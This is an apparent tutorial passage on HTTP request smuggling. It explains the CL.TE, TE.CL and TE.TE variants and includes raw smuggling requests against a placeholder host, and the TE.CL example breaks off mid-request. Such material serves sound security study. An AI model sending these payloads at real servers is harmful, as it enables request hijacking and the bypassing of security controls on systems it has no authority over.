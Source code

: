 ## Basic Examples

So, request smuggling attacks involve placing both the `Content-Length` header and the `Transfer-Encoding` header into a single HTTP request and manipulating these so that the front-end and back-end servers process the request differently. The exact way in which this is done depends on the behaviour of the two servers:

* **CL.TE**: the front-end server uses the `Content-Length` header and the back-end server uses the `Transfer-Encoding` header.
* **TE.CL**: the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header.
* **TE.TE**: the front-end and back-end servers both support the `Transfer-Encoding` header, but one of the servers can be induced not to process it by obfuscating the header in some way.

### CL.TE vulnerabilities

Here, the **front-end** server uses the **`Content-Length`** header and the **back-end** server uses the **`Transfer-Encoding`** header. We can perform a simple HTTP request smuggling attack as follows:

`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 30  
Connection: keep-alive  
Transfer-Encoding: chunked  
  
0  
  
GET /404 HTTP/1.1  
Foo: x`

Note how `Content-Length` indicate the **bodies request length is 30 bytes long** \(_remember that HTTP uses `\r\n` as new line, so 2bytes each new line_\), so the reverse proxy **will send the complete request** to the back-end, and the back-end  will process the `Transfer-Encoding` header leaving the `GET /404 HTTP/1.1` as the **begging of the next request** \(BTW, the next request will be appended to `Foo:x<Next request starts here>`\).

### TE.CL vulnerabilities

Here, the front-end server uses the `Transfer-Encoding` header and the back-end server uses the `Content-Length` header. We can perform a simple HTTP request smuggling attack as follows:

`POST / HTTP/1.1  
Host: vulnerable-website.com  
Content-Length: 4  
Connection: keep-alive  
Transfer-Encoding: chunked  
  
7b  
GET /404 HTTP/1.1  
Host: vulnerable-website.com  
Content-Type: application/x-www-form-urlencoded  
Content-Length: 30  
  